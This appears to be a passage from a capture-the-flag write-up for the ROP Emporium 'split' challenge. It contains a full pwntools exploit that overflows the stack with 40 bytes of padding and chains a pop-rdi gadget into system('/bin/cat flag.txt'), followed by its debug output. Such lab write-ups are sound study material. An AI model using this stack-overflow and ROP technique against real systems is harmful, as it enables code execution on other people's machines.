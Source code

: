 Note that in the exploit code below, I set a breakpoint at the memory address where the old returning stack address was located so we follow the ROP chain's exection flow.

### exploit.py

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './split'

# Start the process
io = process(PROCESS)

# Attach a debugger
gdbscript = "b *0x0000000000400741"
pid = gdb.attach(io, gdbscript=gdbscript)

pop_rdi_ret = p64(0x004007c3)
cat_flag = p64(0x00601060)
system = p64(0x00400560)

offset = 40
padding = b"A" * offset
payload = b"".join([
   padding,
   pop_rdi_ret, # pop the "/bin/cat flag.txt" from the top of the stack into the RDI register
   cat_flag,    # /bin/cat flag.txt
   system,      # invoke system("/bin/cat flag.txt")
])

# Pwn!
io.clean()
io.sendline(payload)
io.interactive()
```

```
$ python3 exploit.py
[+] Starting local process './split' argv=[b'./split'] : pid 3780
[DEBUG] Wrote gdb script to '/tmp/pwnudvff804.gdb'
    b *0x0000000000400741
[*] running in new terminal: /usr/bin/gdb -q  "./split" 3780 -x /tmp/pwnudvff804.gdb
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/usr/bin/gdb -q  "./split" 3780 -x /tmp/pwnudvff804.gdb']
[+] Waiting for debugger: Done
[DEBUG] Received 0x4c bytes:
    b'split by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Contriving a reason to ask user for data...\n'
    b'> '
[DEBUG] Sent 0x41 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  c3 07 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
    00000030  60 10 60 00  00 00 00 00  60 05 40 00  00 00 00 00  │`·`·│····│`·@·│····│
    00000040  0a                                                  │·│
    00000041
[*] Switching to interactive mode
```